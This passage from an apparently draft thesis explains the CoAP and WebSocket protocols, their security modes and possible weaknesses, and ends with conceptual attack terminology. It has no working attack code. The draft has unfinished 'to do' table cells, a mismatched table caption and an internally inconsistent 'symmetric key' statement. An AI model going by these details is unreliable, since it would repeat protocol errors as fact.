				The entity-tag can be crafted in different way: version, checksum, hash or time.
				The client that receives an ETag must make no assumptions about it.
				If used as a response Option it provides the current value of the entity-tag.
				On the other hand if it is used as a GET request option, it is used to select one or more representation.\\\hline
				
				Location-Path & to do\\\hline
				
				Location-Query & to do\\\hline
				
				Max-Age &	Specifies the maximum time a response may be cached before it is considered not fresh.
				The value is an integer between 0 and $2^32-1$, the default value is 60 seconds.\\\hline
				
				Proxy-Uri & It is used to perform a request to a forward-proxy.
				If an endpoint receives a request with a Proxy-Uri Option and it is not capable to act as forward-proxy it must send back a 5.05 response.
				It must take precedence over any Uri-Host, Uri-Port, Uri-Path or Uri-Query.
				They must not be included in a request that has the Proxy-Uri Option.\\\hline
				
				Proxy-Scheme & to do\\\hline
				
				Uri-Host & Specifies the Internet host of the resource requested.
				The default value is the IP literal of the IP address.\\\hline
				
				Uri-Path & Specifies a segment of the absolute path to the resource.
				It can contain any character sequence expect from “.” and “..”.\\\hline
				
				Uri-Port & Specifies the transport-layer port number of the resource.\\\hline
				
				Uri-Query & Specifies one argument parameterizing the resource.
				It can contain any character sequence.\\\hline
				
				Accept & Specifies which Content-Format is acceptable to the client.
				If this Option is missing then the client does not express a preference.
				If the specified content format is not available the server must send back a 4.06 response.\\\hline
				
			\end{tabularx}
			\caption{Constrained devices classification.}
			\label{tab:table7}
		\end{center}
	\end{table}
	
	A payload may be included in both requests and responses, but only if the method or the Response Code allows it, if a recipient receives a request and a payload is not expected, the recipient must ignore it.
	
	When a request is fulfilled the response include a payload which is a representation of a resource in a specific format, the format is specified by the Internet Media Type in the Content-Format Option.\newline
	If the Content-Format Option is missing, it should be inferred; the inclusion of the Content-Format Option in a response is strongly recommended.
	
	If a response that specify a certain client or server error is returned and the Content-Format is missing, then the payload is a diagnostic payload that contains a human-readable message encoded in UTF-8 in the Net-Unicode form.
	
	A server could provide a resource in multiple ways, in order to specify the preferred format the client must add it in the Accept Option, and if the server can satisfy the request it will return a response with the appropriate payload format.
	
	\subsection{Caching}
	In order to speed up the response time and avoid useless network bandwidth consumption, a CoAP endpoint may cache responses.
	
	Sometimes, a stored request can be reused without the need for a network request, but in order to provide a correct response this stored response has a short life and this introduce the \textbf{freshness} model of CoAP.
	
	If a response is tagged as \textbf{fresh} in the cache, it means it can be used to satisfy subsequent requests without contacting the server.
	
	A response is not always cacheable; it depends, as we have seen, on its Response Code.
	
	It is not always possible to use a cached response; it is possible to use a stored response when the request method matches the stored response match, all the options match between the request and the response and the stored response is fresh or validated.
	
	In order to determine if a response is fresh or not, CoAP uses an explicit expiration time specified in the Max-Age Option.
	
	A stored response is valid for a certain amount of time, after that it is no more valid and an endpoint can use the ETag Option in the GET request to allow the server to select a stored response to be used, and to update its freshness.
	
	\subsection{Proxy}
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-img1.png}
		\caption{Example of CoAP proxy.}
		\label{fig:coap1}
	\end{figure}

	A proxy in CoAP is an endpoint that acts as broker between clients and servers, basically it receives a request, translates it and forwards the request to the origin server.
	
	When dealing with proxies we can identify two classes:
	\begin{itemize}
		\item CoAP to CoAP Proxies
		\item Cross Protocol Proxies
	\end{itemize}
	
	We will talk about cross protocol proxies in another chapter, now we will focus on the first class.
	
	A proxy can have a cache or not, in the first case if the server does not have a fresh response for the request it will need to refresh its cache, then it will translate the request and forward a new crafted request to origin server; in the second case the proxy receives the request, translate it and it forwards the new crafted request to the origin server.
	
	A proxy with a cache must not extend the \texttt{Max-Age} Option of a response while it forwards the response to the client; the proxy could adjust the \texttt{Max-Age} in this way:
	\begin{equation}
		proxyMaxAge=originalMaxAge-cacheAge
	\end{equation}
	When a proxy does not recognize a certain Option, it must send back a 4.02 response.\newline
	A proxy must forward all Safe-To-Forward option, but it must send back a 5.02 response if an unsafe option is not recognized.\newline
	In case of timeout the proxy must return a 5.04 response, if a response cannot be processed by the proxy a 5.02 must be returned.
	
	A proxy need a way to determine the parameter of the request that it must forward to the server, basically the server receives a request and it need to know which parameters it must use in order to create the new request if will forward to the server.
	This procedure is fully defined to a forward proxy, but there is no specification of a reverse proxy.
	
	A forward proxy receives a request with the Proxy-Uri or the Proxy-Scheme Option, from one of these options; it will determine the component of the request URI and will split them in:
	\begin{itemize}
		\item Uri-Host
		\item Uri-Port
		\item Uri-Path
		\item Uri-Query
	\end{itemize}

	Proxy-Uri and Proxy-Scheme are not forwarded in the new request.\newline
	A reverse proxy receives requests without the Proxy-Uri or Proxy-Scheme; it needs to determine the destination of a request from the request itself and from its configuration.
	It could discover new resources via Resource Discovery and it can offer them as it they were its own.
	
	When a client uses a proxy to make a request with TLS, the request towards the proxy should be done with TLS; there is no guarantee that the proxy will use TLS, so be careful.
	
	\subsection{CoAP URI}
	CoAP uses coap and coaps URI schemes for resources and providing a means of locating the resource.
	The first is used for unencrypted communication; the second is used for secure encrypted communication.
	
	Resources are organized in a hierarchic way and they are governed by an origin server that listens for request.
	
	A coap-URI is defined as following:
	\texttt{Coap-URI=”coap:” “//” host [“:” port] path-abempty [“?” query]}
	If the host is an ip-literal or an IPv4, it can be reached at that IP address, on the other hand if it is a registered name, it is an indirect identifier and it must be resolved via DNS.\newline
	If the host is empty, then the URI is invalid.\newline
	The default port is 5683.\newline
	The path identifies a resource and it is a string separated by slash.\newline
	The query is used to provide parameter to the resource, it is a sequence of argument separated by an ampersand (\&).
	
	A coaps-URI is defined as following:
	\texttt{coaps-URI = "coaps:" "//" host [ ":" port ] path-abempty [ "?" query ]}
	The differences are: the s after \texttt{coap}, the default port which is 5684 and the UDP datagrams must be secured with DTLS.
	It is important to highlight that two resources with the same name, but made available, one via \texttt{coap}, and the other via \texttt{coaps}, are unrelated.
	
	\subsection{Multicast CoAP}
	CoAP supports requests to a multicast group IP, if a server wants to make its resources discoverable, it need to join one of the following multicast address:
	\begin{itemize}
		\item 	IPv4: 224.0.1.187
		\item IPv6 ff0x:fd
		\item Other multicast address
	\end{itemize}

	An endpoint must be prepared to receive multicast request even from different address from the first two, if an endpoint is not interested in sharing its resources it can simply ignore the requests.
	
	At a messaging layer point of view a multicast request is transported in a CoAP NON message with a multicast IP address.\newline
	In order to avoid implosion of error responses, an endpoint must not return a RST message to a NON message.\newline
	Take in mind that multicast request are not supported by DTLS but only by UDP.
	
	When an endpoint receives a multicast request it could ignore it if it does not have anything useful to send back; on the other hand if it choose to respond, it will respond but not immediately but after a certain amount of time, the length of the period is called \textbf{leisure}.
	The leisure could be defined by the application or defined in this way:
	\begin{equation}Leisure=S\cdot\frac{G}{R}\end{equation}
	Where $G$ is the esteemed group size, $R$ is the transfer rate and $S$ the response size.
	In this case it is a lower bound.
	
	The server chooses a random point of time within the leisure to send a unicast response.
	Each time a further response need to be send a new leisure period must be defined.
	
	In order to match a response to a multicast request only the token must match.
	
	\subsection{Discovery}
	A client can find a server in 3 different ways:
	\begin{itemize}
		\item It knows the URI
		\item It learns the URI
		\item Or it finds out via multicast request
	\end{itemize}

	A server that support resource discovery must use the default port 5683.
	
	In a M2M environment where there is no human intervention it is very important to have a way to discover resources.\newline
	A server that support resource discovery should support the CoRE (Constrained Restful Environment) link format of discoverable-resource (RFC 6690) when manual configuration is missing.
	
	\subsection{CoAP-HTTP Proxying}
	As mentioned before, it is possible to implement a proxy between CoAP and HTTP.\newline
	Figure \ref{fig:coap2} illustrates where the proxy is placed in the communication between the client and the server.
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-img1.png}
		\caption{Example of CoAP to HTTP proxy.}
		\label{fig:coap2}
	\end{figure}
	
	When a CoAP endpoint sends a request including a Proxy-Uri or Proxy-Scheme option with a HTTP or HTTPS URI, the receiving CoAP endpoint known as proxy, will translate the CoAP message into an HTTP or HTTPS and perform the operation specified in the original request.\newline
	If the proxy is not capable of handling the submitted request, a 5.05 response is returned to the client.
	
		\begin{table}[h!]
		\begin{center}
			\begin{tabularx}{\textwidth}{|l|X|}
				\hline
				\textbf{Method} & \textbf{Description} \\\hline
				GET & A GET request requires the proxy to return a representation of the HTTP resource specified in the Proxy-Uri Option.
				On success, the proxy should return a 2.05 response.\\\hline
				POST & It requests the proxy to create a new resources based on the payload provided with the request.
				If the resource has been created, the proxy must return a 2.01 response.
				On the other hand if no new resource is created it must return a 2.04 response.\\\hline
				PUT & It requests the proxy to update or create an HTTP resource identified by the URI specified in the Proxy-Uri Option.
				If a new resource is created, the proxy must return a 2.01 response, in case an existing resource has been modified, it must return a 2.04 response.\\\hline
				DELETE & It requests the proxy to delete the HTTP resource identified by the URI specified in the Proxy-Uri Option.
				It must return a 2.02 response on success, and even if the resource did not exist.\\\hline
			\end{tabularx}
			\caption{Mapping of CoAP's methods to HTTP.}
			\label{tab:table8}
		\end{center}
	\end{table}
	
	Thanks to the fact that these four methods are quite similar to the corresponding in HTTP, the proxying operation is facilitated.
	
	\subsection{HTTP-CoAP Proxying}
	It is also possible to perform the inverse proxying operation from HTTP to CoAP.\newline
	There are some restrictions, because some methods of HTTP are not supported by CoAP.
	
		\begin{table}[h!]
		\begin{center}
			\begin{tabularx}{\textwidth}{|l|X|}
				\hline
				\textbf{Method} & \textbf{Description} \\\hline
				OPTION & Not supported, a 501 error must be returned.\\\hline
				TRACE & Not supported, a 501 error must be returned.\\\hline
				CONNECT & Not supported, a 501 error must be returned.\\\hline
				GET & It must return a 200 Ok response upon success.
				The payload must be a representation of the target CoAP resource.\\\hline
				HEAD & The HEAD method is identical to GET, but the server must not return a message body in the response, it could be implemented with a CoAP GET request and the proxy will then strip the payload from the CoAP response.\\\hline
				POST & It requests the proxy to perform a POST request to the CoAP server, the actual task performed is defined by the CoAP server and not by the protocol.
				If the result does not create a new resource a 200 Ok response or a 204 No Content response must be returned.
				If the result creates a new resource, a 201 Created response must be returned.\\\hline
				PUT & The PUT method requests the proxy to update or create the CoAP resource identified by the Request-URI.\\\hline
				DELETE & It requests the proxy to delete the CoAP resource identified by the URI in the Request-URI Option.\\\hline
				
			\end{tabularx}
			\caption{Mapping of HTTP's methods to CoAP.}
			\label{tab:table9}
		\end{center}
	\end{table}
	
	\subsection{Securing CoAP}
	CoAP can operate in one of the following security modes.
	
		\begin{table}[h!]
		\begin{center}
			\begin{tabularx}{\textwidth}{|l|X|}
				\hline
				NoSec & In this mode there is no security because DTLS is disabled.
				Basically, messages are sent over the normal UDP channel and the coap scheme is used.\\\hline
				PreSharedKey & DTLS is enabled and the device has a list of pre-shared keys that it uses to communicate with the other nodes in the network.
				It is possible to have a one key for each node in the network but it may be not possible for memory constraint.
				It uses the coaps scheme.
				When an endpoint starts a communication with another endpoint an appropriate key is selected.
				The cipher suite must implement \texttt{TLS\_PSK\_WITH\_AES\_128\_CCM\_8}.\\\hline
				RawPublicKey & DTLS is enabled and the device has an asymmetric key but no certificate.
				It uses the coaps scheme.
				The symmetric key is generated and installed by the manufacturer of the device.
				A device may have multiple public keys.
				The cipher suite must implement \texttt{TLS\_ECDHE\_ECDSA\_WITH\_AES\_128\_CCM\_8}.\\\hline
				Certificate & DTLS is enabled and the device has an asymmetric key and a signed certificate.
				The device has a list of root trust that it uses to validate the certificate.
				It uses the coaps scheme.
				The certificate needs to be verified when a new connection is created, if the CoAP node is capable of computing an absolute time, then the node should check the validity of the certificate.
				The cipher suite must implement \texttt{TLS\_ECDHE\_ECDSA\_WITH\_AES\_128\_CCM\_8}.\\\hline
				
				
			\end{tabularx}
			\caption{Security options available in CoAP.}
			\label{tab:table10}
		\end{center}
	\end{table}
	
	It is important to highlight that we are dealing with constrained devices; in some cases, it could be possible that the available resources are not able to support a secure communication, or the support of the cyber suite is only partial.\newline
	Also, take in mind that DTLS adds a little overhead and it could slow down the communication or create congestion in the network.
	
	Of course, the use of DTLS is strongly recommended but in some case it could be simply impossible to use, in this case the network is secure only if an attacker is not capable of sending and receiving messages.
	
	As just said, DTLS is not supported for multicast CoAP messages.
	
	While using DTLS all CoAP messages must be sent as DTLS “application data” and in order to match an ACK or RST message to a CON the DTLS session must be the same, and the epoch must be the same.\newline
	The rules for matching a RST message to a NON message are the same.
	
	During the retransmission of a CON message, a new DTLS sequence number is used at each attempt, but the Message ID does not change.\newline
	Retransmission must not be performed across epochs.
	
	In order to match a request to a response there is a new rule: the DTLS session must match and even the epoch must match, thus a DTLS request must always associated to a DTLS response, if the response is not secured it must be rejected.
	
	\subsection{Security perspective}
	Every protocol has some flaws in its design and in its implementations; by exploiting these flaws is it possible to perform attack, from a simple denial of service to a remote code execution.\newline
	A DoS may be possible simply by exploiting a flaws in the protocol, for a remote code execution a big flaw in the implementation must be present, of course an error in the design could accentuate an implementation flaw.
	
	In this section we will not talk about specific attack but only list down some hypothesis, we will talk about real attack in another chapter.
	
	One source of flaws for CoAP could be the parser that analyze the messages; a parser is a program that recognize a grammar, if the grammar is complex then its parser will not be less complex if not even complex, it is trivial to understand that it is likely that a flaw may hide inside the parser, this could lead to DoS or remote code execution if a buffer overflow happens.
	
	Talking about URI processing, CoAP moved the most of it on the client side to avoid vulnerabilities server side, in this case, the vulnerabilities could be in the client side, the IETF suggest to take special care while implementing the URI processing code.
	
	The fact that most constrained device will execute, for performance reasons, the protocol implemented in C it is likely that a buffer overflown could happens if the memory is not handled properly. 
	
	A proxy is, from the security point of view, a man in the middle; if a proxy endpoint is compromised then even using DTLS is useless.\newline
	If a proxy also performs caching tasks, an attacker could carry out a DoS by caching forever useless message or old real message.
	
	When a server replies to a request with a response, the response may be larger than the request packet.
	We could exploit a CoAP server in order to generate a huge amount of network traffic with the aid of IP spoofing; this is a particular case of DoS known as amplification attack.\newline
	This could be particularly interesting because we are dealing with constrained devices, so suppose that somehow, we have taken control of a node, but that it is not powerful enough to perform a DoS alone, we could exploit a CoAP server, which we assume is quite more powerful of a single node, to generate a huge network traffic.\newline
	On the other hand, a constrained network could only be able to generate a small amount of traffic due to the fact that is constrained by design.\newline
	It is possible to avoid this particular attack if the nodes are authenticated.\newlineù
	
	Another source of attack could be the use of multicast IP, but as we have seen the protocol specify a particular procedure in order to avoid DoS attack on this front.\newline
	In order to avoid attack via multicast IP a server should not accept a request that could not be authenticated.
	
	Due to the nature of UDP an endpoint can read messages carried by the network if the configuration is NoSec or PreSharedKey.\newline
	It is possible to spoof a RST message in response to a CON or NON message.
	An attacker could send an ACK in response to a CON in order to prevent the retransmission of a message and thus blocking the endpoint.\newline
	
	Also take in mind that the fact we are dealing with constrained device is quite important, another possible attack could be a DoS that tries to exhaust the energy of a constrained device in order to shut it down completely, this is possible by forcing an endpoint to retransmit a message or by sending multicast messages.
	
	A constrained device may not have enough entropy in order to provide secure pseudo-random number generator, this could lead to trivial and predictable token.
	
	Due to the limited resources, a constrained device may be susceptible to timing attack, in particular while dealing with cryptographic primitive.
	
	Another possible threat is given by the environment where the constrained device is deployed, if the environment is not properly secured an attacker could simply tamper the device or, if his target is creating a DoS, simply smashing the device with a hammer.\newline
	So it is important to place constrained devices in a controlled environment in order to avoid attacks that are not completely related with the digital world.
	
	\subsection{Differences and short comparison with MQTT}
	Both CoAP and MQTT are good for constrained environment, but they have different targets and features, CoAP uses UDP as underlying transport layer, while MQTT uses TCP that supports an advanced reliability model compared to CoAP.
	
	CoAP is easily mapped to HTTP because it was designed with this feature in mind.
	
	MQTT is most suitable for event-based communication while CoAP is a better choice for continuous monitoring scenario.\newline
	CoAP also offers faster communication compared to MQTT and it is more indicated for M2M communication, on the other hand, CoAP is UDP based and unreliable by design while MQTT thanks to TCP is reliable but slower.
	
	MQTT is more common compared to CoAP; that is because MQTT was adopted, at least initially, by the big cloud player.\newline
	Another factor to take in mind is date of release of the specification: MQTT was released in 1999 while CoAP in 2014; that is why CoAP is, at the moment, less widespread.
	
	\subsection{CoAP implementation}
	At this link: \url{http://coap.technology/impls.html} are listed some CoAP implementation.\newline
	All the most important programming languages are supported.\newline
	For constrained devices the libraries are written, most of the time, in low level languages like C, note that some library are specifically written for a certain class of constrained device, for example tinydtls is a library that implements DTLS for Class1 devices.\newline
	
	There is also a library for less constrained devices where it is possible to run an interpreter of JavaScript.\newline
	
	From the server side point of view, there are implementations for every important language like C, Java, C\# and JavaScript.\newline
	
	There are also implementation for mobile devices and closed source implementation; one in particular is developed by ARM.\newline
	
	At the moment there is no known real world application that uses CoAP heavily, but the amount of scientific paper about this protocol may lead to an adoption from the company.
	\newline
	//citare il proxy bolognese
	
	\chapter{WebSocket}\label{ch:ws}
In this Chapter we analyze WebSocket and its main features; to make the reading more comfortable,
we skip some technical details that are not crucial to the understanding of basic concept of the protocol, as we did for CoAP.\newline
In case you find yourself interested by WebSocket and you want to examine all the details you can consult the RFC 6455 defined by IETF~\cite{rfcws}. \newline

WebSocket is a little protocol and in Section \ref{sc:open} we will analyze the opening handshake, followed by data framing and how the transmission works, respectively in Section \ref{sc:data_framing} and \ref{sc:sending}, then in Section \ref{sc:closing} we will briefly discuss the closing handhshake.\newline
In the end we will discuss about secondary aspects of the protocol.\newline

WebSocket provides full-duplex communication channel over a single TCP connection between two hosts.\newline
Before WebSocket the easiest way to implement a web application which required a constant flow of information from
the server to the client was achieved with the long polling technique; it worked, but was very inefficient because it opened
lots of connections instead of only one; basically WebSocket was designed to substitute the long polling technique and making real time data transfer 
possible with a very low overhead.\newline

Even if WebSocket is different from HTTP, they share some similarities; for instance: both work on port 80 and 443; this is not random, in fact these two ports
are always open on router or firewall, in this way a web application can work even on network where there are lot of ports blocked.\newline
In WebSocket, the server has a standard way to send content to the client without a previous request, excluding the first one sent in order to create the connection.\newline

The WebSocket protocol is designed to be nothing more than a layer on top of TCP, it only adds the following features:
\begin{itemize}
	\item An origin-based security model for browser.
	\item Support for multiple services on one port and multiple hostnames on the same IP.
	\item A framing mechanism on top of TCP.
	\item Closing handshake designed to work in presence of proxies and other intermediaries.
\end{itemize}

\section{Opening handshake}\label{sc:open}
In order to establish a WebSocket connection, a client must provide a valid URI, then it opens a connection and sends the handshake.\newline
If the client has another WebSocket connection to a host, then the client must wait until that connection has been established or for that connection to have failed.\newline
It is not possible to have more than one connection in the \texttt{CONNECTING} state, if multiple connections are needed,
the client must serialize them, in order to have only one active connection at a time.\newline
If for some reason (for instance a proxy) a client cannot determine the IP address of the remote host,
then the client must assume that each host name refer to a distinct host.\newline

If a client is configured to use a proxy, then the WebSocket protocol should connect to the proxy and ask to open a connection to the specified host on the given port.\newline

If the connection establishment process fails, then the client must abort the connection attempt.\newline

If the client tries to establish a secure connection then a TLS handshake is mandatory, and all the further communication must be on the encrypted channel.\newline

After the establishment of a connection, the client must send an opening handshake to the server; which is a valid GET request with the following headers: \texttt{Upgrade}, \texttt{Request-URI}, \texttt{Host}, \texttt{Sec-WebSocket-Key}, \texttt{Sec-WebSocket-Version}, \texttt{Sec-WebSocket-Protocol} and \texttt{Sec-WebSocket-Extension}.\newline
The \texttt{Sec-WebSocket-Key} header contains a 16 bytes randomly generated token encoded in base64, while the \texttt{Sec-WebSocket-Protocol} header specifies one or more subprotocol the client wishes to use; the other header are technicalities that we can skip and refer to the RFC.

This is an example of client handshake message:
\begin{lstlisting}
GET /something HTTP/1.1
Host: server.example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Origin: http://example.com
Sec-WebSocket-Protocol: something
Sec-WebSocket-Version: 13
\end{lstlisting}

Except for the first line, all the headers are not in a precise order.\newline

The client sends an handshake and wait for the response.
When the server receives a WebSocket connection request, the request will appear as a regular HTTP request with an Upgrade header.\newline
At first the server must check if the received handshake request is correct by verifying the previously cited headers;
after that, if the server chooses to accept the incoming connection, it must reply with a valid HTTP response with the following headers: \texttt{Upgrade}, \texttt{Connection}, \texttt{Sec-WebSocket-Accept}, \texttt{Sec-WebSocket-Protocol} and  \texttt{Sec-WebSocket-Extension}.\newline
The most important is \texttt{Sec-WebSocket-Accept} which contains the hash of \texttt{Sec-WebSocket-Key} header of the client handshake.


When the client receives the server’s response it must validate the previous headers, in particular it must check if the 
content of \texttt{Sec-WebSocket-Accept} is the expected hash.\newline
When the handshake is complete and successful, the data transfer starts; each side can send data.\newline

\emph{Note:} the \texttt{Sec-WebSocket-Protocol} header can be used to specify a sub-protocol that the client can accept, in this case we are talking about an application level protocol and not one that lives in the TCP/IP stack; this header allows the server to provide the service in a suitable way for the client.

\section{Data framing}\label{sc:data_framing}
\begin{figure}[h]
	\begin{bytefield}[bitwidth=1.1em]{32}
		\bitheader{0-31} \\
		\begin{rightwordgroup}{WebSocket Frame}
			\bitbox{1}{\rotatebox{90}{\tiny Fin}}
			& \bitbox{1}{\rotatebox{90}{\tiny RSV1}}
			& \bitbox{1}{\rotatebox{90}{\tiny RSV2}}
			& \bitbox{1}{\rotatebox{90}{\tiny RSV3}}
			& \bitbox{4}{Opcode}
			& \bitbox{1}{\rotatebox{90}{\tiny Mask}}
			& \bitbox{6}{Payload length}
			& \bitbox{17}{Extended payload length}\\
			& \bitbox{32}{Extended payload length (2)}\\
			& \bitbox{16}{Extended payload length (3)}
			& \bitbox{16}{Masking key if mask is set to 1}\\
			& \bitbox{16}{Masking key continued}
			& \bitbox{16}{Payload data}\\
			& \bitbox{32}{Payload data continued}\\
			& \bitbox{32}{Payload data continued}
		\end{rightwordgroup}
		
	\end{bytefield}
	\label{fig:wsheader}
	\caption{Structure of a WebSocket frame.}
\end{figure}

Figure \ref{fig:wsheader} illustrates a WebSocket Frame.

Data is transmitted via a sequence of frames which forms a message.\newline
The client must mask all frames that it sends to the server, and the server must close the connection when it receives unmasked data, also it may send a Close frame with the status code 1002.\newline

A server must not mask any frames that it sends to the client, on the other hand, if the client receives a masked frame, then it must close the connection and it may send a Close frame with the status code 1002.\newline

A frame consists of:
\begin{itemize}
	\item An Op-code
	\item Payload length
	\item Location for Extension data
	\item Location for Application data
\end{itemize}
	
The extension data and the application data together define the Payload Data.

A WebSocket frame is defined by the following fields:
\begin{itemize}
	\item \texttt{FIN}: 1 bit that specifies if the fragment is the last in a message.
	\item \texttt{RSV1}, \texttt{RSV2}, \texttt{RSV3}: 1 bit each, they must be 0, if a nonzero value is received it means that an extension was negotiated, otherwise the recipient must fail the WebSocket connection.
	\item \texttt{Opcode}: 4 bits, define the interpretation of the payload data.
	\begin{itemize}
		\item 0000 – continuation frame
		\item 0001 – text frame
		\item 0010 – binary frame
		\item 0011 to 0111 – reserved for future non control frames
		\item 1000 – connection close
		\item 1001 – ping
		\item 1010 – pong
		\item 1011 to 1111 – reserved for future control frames
	\end{itemize}
	\item \texttt{Mask}: 1 bit, specifies if the payload data is masked or not, if 1 then a masking key is present in the masking key field, otherwise it is not.
	\item \texttt{Payload length}: it could be 7 bits, 7+16 bits or 7+64 bits, it specifies the payload length in bytes.
	\begin{itemize}
		\item If 0-125, then we only need 7 bits.
		\item If 126, then the following 16 bits define the payload length.
		\item If 127, then the following 64 bits define the payload length.
	\end{itemize}
	\item \texttt{Masking key}: 0 or 32 bits, it is present if the mask bit is set, otherwise it is not; it is used to mask all the frame sent by a client to a server.
	It is randomly generated by the client, it must not be predictable, thus it must be generated by a secure random number generator or from a source of entropy.
	\item \texttt{Payload data}: (x+y) bytes, it is defined as extension data concatenated with application data.
	\begin{itemize}
		\item The extension data is 0 bytes unless there is a negotiated extension between the two endpoints.
		\item The application data is the “real” content of the payload.
	\end{itemize}
\end{itemize}


The masking does not change the length of the Payload data.\newline

The primary purpose of fragmentation is to allow the client and server to allocate a reasonable size buffer in order to avoid a continuous resize of the message buffer; when the buffer is full, the fragment is written to the network.\newline

A secondary purpose is for multiplexing, which allows to split the message in smaller fragments in order to share the output channel with other messages.\newline

There are only 3 control frames:
\begin{enumerate}
	\item Close, which may specify the reason for closing the connection.
	If present the first two byte represent a status code, the body may contain UTF-8 encoded data.
	\item Ping, which may include application data, when an endpoint receives a Ping frame it must send a Pong frame as response as soon as it is practical.
	This is used to keep alive a connection or to check if a remote host is still reachable.
	\item Pong, which is used to reply to a Ping frame, must have the same Application Data received from the Ping frame.
\end{enumerate}

There are only two data frames:
\begin{enumerate}
	\item Text encoded as UTF-8.
	A frame can contain a partial UTF-8 sequence, but the whole message must be a valid UTF-8 string.
	\item Binary arbitrary data, it must be interpreted at the application layer.
\end{enumerate}

\section{Sending and receiving data}\label{sc:sending}
After the establishment of a connection it is possible to send and receive data; in order to send data an endpoint must perform the following steps:
\begin{itemize}
	\item It must check that the WebSocket connection state is OPEN, if the state changes, then the endpoint must not send any data.
	\item The data to be sent must be encapsulated in a frame, if the data does not fit it may encapsulate the data in a series of frames.
	\item The frame op-code of the first frame containing data must be set to the appropriate value.
	\item The frame-fin of last frame must be set to 1.
	\item If the data is being sent by the client, then the frames must be masked properly.
	\item If an extension has been negotiated for the connection, it is possible that the endpoint must take care of other condition.
	\item The frames that have been formed must be transmitted over the underlying TCP connection.
\end{itemize}

In order to receive data an endpoint listens on the underlying connection, data must be parsed as WebSocket frame;
if the endpoint parses a control frame, the endpoint must handle it as defined by the protocol.\newline
If a frame is part of a fragmented message, then the Application data of the subsequent data frames is concatenated in order to form the data.\newline
When the last fragment is received, it is indicated by the frame-fin, then a message is received.\newline

\section{Closing handshake}\label{sc:closing}
To close the connection properly there is also a closing handshake procedure: the client or
the server can send a control frame with a specified control sequence in order to begin the closing procedure.\newline

The closing handshake can be initiated by both parties simultaneously without any problem, and it is a very simple procedure:
the client sends the control frame and the server sends back a Close frame as response; as said the opposite works fine.\newline
After sending the control frame that will end the connection, the peer does not send any other data over the channel.

\section{Origin security model}
In order to avoid attacks, the WebSocket protocol employees the origin security model used by web browsers in order
to specify which pages are allowed to create a connection to a WebSocket server when the protocol is used from a web page.\newline
Of course if the protocol is used from a different client the origin model is not useful at all because the client can provide any origin string.

\section{URI}
WebSocket defines two URIs: ws is the standard WebSocket while wss is WebSocket Secure which is the basic protocol with a layer of encryption.\newline
The two URIs are defined as follow:\newline

\texttt{ws-URI = "ws:" "//" host [ ":" port ] path [ "?" query ]}\newline
\texttt{wss-URI = "wss:" "//" host [ ":" port ] path [ "?" query ]}\newline

The difference are the following: a double s at the beginning and the default port, for ws is 80 and for wss is 443.\newline

The host could be an IP literal, an IPv4 address or a registered name; while dealing with the first two, the request could be directly sent, but if we are dealing with a registered name we first need to resolve it via DNS.\newline

The port can be omitted if the default values is used, otherwise it must be specified in order to communicate with the right process on the server.\newline
The path contains data, usually organized in hierarchical form, used to identify a particular resources.\newline
At the end, the query component contains a set of data divided by the question mark, it is used to provide extra content with the request.\newline

\section{Security perspective}
Even if the WebSocket protocol is designed to be used inside a web browser, this does not mean it will always be used inside a browser, in fact an attacker could send a forged request by a different client.\newline
The server must not trust the input received from a client, it always must check the input in order to avoid possible attack.\newline

If a server is not intended to process input from any web page but from certain sites it should verify the \texttt{Origin} header.\newline
Of course if an attack sends a request to the server with the proper Origin header, then the server will accept it, this header was designed to
avoid fake WebSocket connection inside a browser environment, not from a non-browser client.\newline

\section{Implementation} 
Nowadays every mainstream browser supports WebSocket; of course the server must support it in order to make the web application available.\newline
The protocol, on server side, is implemented as a stand-alone library or even as modular component for standard web server.\newline
A research on GitHub can lead us to libraries for every important programming languages; at the following link there is a list of 
available implementations: \url{https://github.com/facundofarias/awesome-websockets} .

	
		\chapter{Vulnerabilities and attacks}\label{ch:vuln}
	In this section we analyze the vulnerabilities of both CoAP and WebSocket, we also show some attacks;
	where possible we also show some snippet of code.\\
	In case you are interested in reproducing the examples the complete code is available on GitHub at this link:\\ \url{https://github.com/TheRealLolloFake/tesi}\\
	For each example we will describe how to configure environment and list down the required tools.\newline
	
	\section{Terminology}
	In this short section we list the most common attacks, considering that these terms will be recurrent from now on.\newline
	
	A \emph{Denial of Service} (DoS) is a particular attack that tries to make a machine or a resource unavailable, this
	attack is carried out, for instance, by sending a huge amount of requests to an endpoint.\newline
	A more efficient variant of a DoS is the \emph{Distributed Denial of Service} (DDoS), the main goal is the same but it is achieved
	with the collaboration of two or more clients that perform a huge amount of requests to an endpoint.\newline
	
	A \emph{Man in the Middle} (MitM) is an attack where the attacker intrudes in a communication between two endpoints
	and act as third party capable of receiving, modifying and forwarding messages.\newline
	A MitM is difficult to discover because it is silent, but it is possible to detect an intruder by analyzing
	the latency in the communication.\\
	
	
	A well known attack is the \emph{buffer overflow}, which exploits the wrong handling of the memory by a program, usually when a buffer
	overflow happens the program crashes because some  important content has been overwritten.
	If the content provided by an attacker is specifically crafted, it could lead to the execution of arbitrary code
	and the corruption of the system; this particular attack is quite common programs written in assembly, C or C++ because the programmer must take care of the memory handling.\newline
	
	With the term \emph{injection} we mean the introduction of \emph{something} by an attacker, an injection
	can be classified as:
	\begin{itemize}
		\item SQL injection - when part of SQL syntax is added to a query.
		\item URL injection - when malicious code is added via URL.
		\item DOM injection - when DOM elements hide malicious content.
		\item Code injection - when code is injected inside another application.
	\end{itemize}
	
	A \emph{cold boot attack} is a particular technique that relies on the data remanence property of the RAM, basically when
	a system is shut down some data remains in memory for a little amount of time.
	If the attacker, with the aid of liquid nitrogen or similar tools, is capable of reducing the temperature, he can extend the time window in which data remains in memory, then with the aid of special tools he can dump the memory.\newline
	
	\emph{Cross-site scripting} (XSS) is a vulnerability found in web applications.\\
	XSS allows attackers to inject client-side script into web pages viewed by other users, there are two kind of XSS vulnerabilities:
	reflected and persistent, the first are common and the malicious content is present only on the target browser.
	A persistent XSS vulnerability is more difficult to discover and more dangerous because the malicious content is saved on the server and spread around to multiple users.\\
	
	
	\section{CoAP vulnerabilities and attacks}
